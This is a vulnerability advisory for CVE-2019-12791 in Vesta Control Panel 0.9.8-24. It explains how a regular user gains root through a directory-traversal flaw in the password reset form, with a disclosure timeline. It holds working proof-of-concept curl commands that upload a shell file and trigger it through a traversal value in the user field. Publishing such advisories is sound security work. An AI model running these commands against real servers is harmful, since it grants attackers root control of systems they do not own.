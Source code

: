 ```yaml
---
title: '[CVE-2019-12791] Vesta Control Panel 0.9.8-24 — Privilege escalation in the password reset form'
description: Privilege escalation to root can be achieved by a regular user via the password reset form exploiting a directory traversal vulnerability.
tags: [Vesta Control Panel, Privilege escalation, password reset]
advisory:
  discovered: 2019-04-17
  product: '[Vesta Control Panel](https://vestacp.com/)'
  versions:
    - 0.9.8-24
  cve: CVE-2019-12791
---
```


## Abstract

The insufficient input sanitization used by the `v-list-user` shell utility allows to perform directory traversal and execute shell files as `root` anywhere in the file system but with a fixed file name.

This coupled with the legitimate ability of registered users to upload files in certain locations on the server grants an attacker the ability to perform privilege escalation from a registered user to `root` by simply requesting a password reset.

[HestiaCP](https://www.hestiacp.com/) (an actively maintained fork of VestaCP) version 1.0.4 is also vulnerable but a fix has been promptly deployed in version 1.0.5.

## Details

The `v-list-user` script accepts an user name as an argument then evaluates the `$VESTA/data/users/$user/user.conf` file and prints some values:[^vesta-variable]

```sh
source $VESTA/data/users/$user/user.conf
```

The only check that is performed against the user name is `is_object_valid 'user' 'USER' "$user"` which basically checks that the path `$VESTA/data/users/$user` is a valid directory. So if `../../../../../tmp` is passed as user name then the file `/tmp/user.conf` is evaluated.[^any-writable]

A registered user can upload files on the server using the `/upload/` endpoint. The following is used to upload the proof script to `/tmp/user.conf`:

```console
$ PHPSESSID=... # grab it from an authenticated regular user session
$ COMMAND='id > /usr/local/vesta/web/proof'
$ echo "$COMMAND" | curl -sk -o /dev/null \
    'https://target.com:8083/upload/?dir=/tmp' \
    -b "PHPSESSID=$PHPSESSID" \
    -F 'files=@-;filename=user.conf'
```

It is then possible to invoke the `v-list-user` utility by requesting a password reset:

```console
$ curl -k https://target.com:8083/reset/ -d 'user=../../../../../tmp'
```

In VestaCP the web server is run by the `admin` user and the password reset page executes the `v-list-user` script with `sudo` thus the `user.conf` is evaluated by `root`.

Check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

[^any-writable]: Any other writable location can be used, e.g., the user home directory.

[^vesta-variable]: `$VESTA` is usually set to `/usr/local/vesta/`.

## Timeline

2019-05-28
: Disclosed to the VestaCP team.

2019-06-10
: MITRE assigns [{{ page.advisory.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.advisory.cve }}) to this vulnerability.

2019-07-29
: Final warning via [GitHub issue](https://github.com/serghey-rodin/vesta/issues/1921) since emails have been ignored.

2019-07-30
: The VestaCP author asks one more week to fix the issue and publish a new release.

2019-07-31
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/bb44f4197b4e5de219bc00197f89517c7e92bc2a) the vulnerability.

2019-08-15
: The VestaCP team [releases](https://github.com/serghey-rodin/vesta/commit/868dd8b146e76ea3c83c26855ae2f60b22d989d2) version 0.9.8-25.
